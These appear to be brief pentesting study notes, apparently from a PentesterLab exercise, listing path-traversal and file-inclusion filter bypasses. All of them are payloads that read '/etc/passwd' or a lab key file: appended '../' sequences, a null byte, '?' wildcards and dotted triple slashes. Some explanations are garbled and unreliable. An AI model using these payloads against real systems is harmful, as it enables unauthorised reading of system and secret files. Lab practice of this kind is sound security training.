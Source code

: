 **Filter bypass: append path at the end**

If you see a full path being used, you can calculate how many directories there is upp.
eg: example.com/file.php?path=/var/www/love.jpg

You can therefore use the following payload:
/var/www/love.jpg/../../etc/passwd

**Filter bypass: Adding nullbyte %00**
Append a nullbyte at the end, for example:
http://ptl-0a5de95b-d78ba17e.libcurl.so/file.php?file=../../../pentesterlab.key%00


**??? character bypass**
If paths are blacklisted, use the following payload:
/??c/pas???
The ? character will used to find a file names, matching the name of the character used in the path

**Filter bypass: Tripple slash forward or backwards with dots**
Add two or three slashes with same amount of dots either backards or forward:
...///...///etc///passwd

or

...\\\...\\\etc\\\passwd

